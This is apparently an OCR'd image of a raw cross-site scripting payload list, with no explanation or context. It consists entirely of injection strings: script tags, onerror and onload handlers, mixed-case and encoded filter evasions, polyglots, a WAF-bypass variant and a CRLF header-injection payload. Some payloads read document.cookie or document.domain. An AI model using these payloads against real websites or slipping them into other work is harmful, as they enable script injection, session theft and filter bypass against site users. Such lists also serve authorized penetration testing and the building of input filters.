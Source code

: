 ';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
<![><img src="]><img src=x onerror=javascript:alert(1)//">
<script>alert(1)</script>.php
test@example(<script>alert(0)</script>).com
%00<script>alert(1)</script>
'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
"><input autofocus onfocus =top[(584390752*16).toString(32-1*2)](/XSS/)>"><svg onload=prompt(document.domain);>.html
document.createElement('div').innerHTML = "<img src=1 onerror=alert()>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<input type="text" value="jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e"></input>
<BODY ONLOAD=javascript:alert(1)>
<img src=1 onerror=alert(1)>
<script>+-+-1-+-+alert(1)</script>
<sCRipT>alert(1)</sCRiPt>
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
<script>onerror=alert;throw 1337</script>
"<Svg OnLoad=confirm?.(/d3rk😈/)<Svg+OnLoad=confirm?.(/d3rk😈/)" test="<img src=x onerror=alert(1)//">
%E5%98%8D%E5%98%8ASet-Cookie:whoami=thecyberneh%0d%0a%0d%0a%0d%0a%0d%0a%3Cscript%3Ealert(1);%3C/script%3E
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x onerror=alert(document.domain)>
<img src=x onerror=javascript:alert(1)//">
"><body/oNpagEshoW=(confirm)(document.domain)>
<script>var{a:onerror}={a:alert};throw 1</script>
"><script>alert(String.fromCharCode(66, 108, 65, 99, 75, 73, 99, 101))</script>
<img src=x onerror=prompt()>
%20<script>prompt(document.domain)</script>
"><img src=x onerror=prompt(document.cookie);>
%E5%98%8D%E5%98%8A%20<script>alert(1)</script>
">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'>
"><Svg Only=1 OnLoad=confirm(document.domain)>
"><img src=x\%28\%29\ onerror=prompt(document.domain);>
%20"><img src=q onerror=alert(1)>
<><img src=1 onerror=alert(1)>
%22%3C!--%3E%3CSvg%20OnLoad=confirm?.(/Yetixx%F0%9F%98%88/)%3C!--1%22%29%22%3C%21--%3E%3CSvg+OnLoad%3Dconfirm%3f%2e%28%2fYetixx%2f%29%3C%21--
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
<body onload=alert(/XSS/.source)>
"%3E<img src=x onerror=prompt(document.domain);%3E"
<iframe/onload=alert(0);>
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41));</script>"><img src=x alt=x onerror=prompt(document.domain);>
<? foo="><script>javascript:alert(1)</script>">
%3F%20<script>prompt(document.domain)</script>
<svg onx=() onload=(confirm)(1)>
//*><ScRipt>alert(/XSS/)</ScriPT>
嘼"><svg onload=prompt(document.domain);>
%3cscript%3ealert()%3c/script>